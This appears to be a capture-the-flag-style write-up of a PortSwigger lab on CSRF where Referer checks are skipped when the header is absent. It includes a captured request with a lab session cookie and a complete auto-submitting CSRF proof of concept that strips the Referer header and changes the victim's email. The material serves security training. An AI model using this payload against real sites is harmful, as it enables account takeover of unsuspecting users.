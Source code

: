 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b2603304-ac90-4c2d-aa12-68ab9864ddb6)


## Overview :

**Validation of Referer depends on header being present**

Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.

In this situation, an attacker can craft their CSRF exploit in a way that causes the victim user's browser to drop the Referer header in the resulting request. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack:

```html
<meta name="referrer" content="never">
```

## Solution :

Log in to the website using the credentials - `wiener:peter`

When we click update email,  browser sends the following POST request

```http
POST /my-account/change-email HTTP/1.1
Host: 0ac50066041d344984249b4000c000ff.web-security-academy.net
Cookie: session=XsyAE3cbGzDpfbAo86E7Oll17UUjqgOW
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0ac50066041d344984249b4000c000ff.web-security-academy.net
Referer: https://0ac50066041d344984249b4000c000ff.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=user%40user.net
```

Notice that **there is no csrf token or any Samesite cookie**. Most probably it is validating the request by using **Referrer Header**.

Send the request to POC generator & add the following line to tell the application to ignore Referrer header.

```html
<meta name="referrer" content="no-referrer">
```

**Final POC -**

> NOTE - Include auto submit script.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <meta name="referrer" content="no-referrer">
  <body>
  <meta name="referrer" content="no-referrer">
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ac50066041d344984249b4000c000ff.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Deliver the exploit to victim to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/24a02831-6a6f-44fc-adc3-2ae804f982bd)
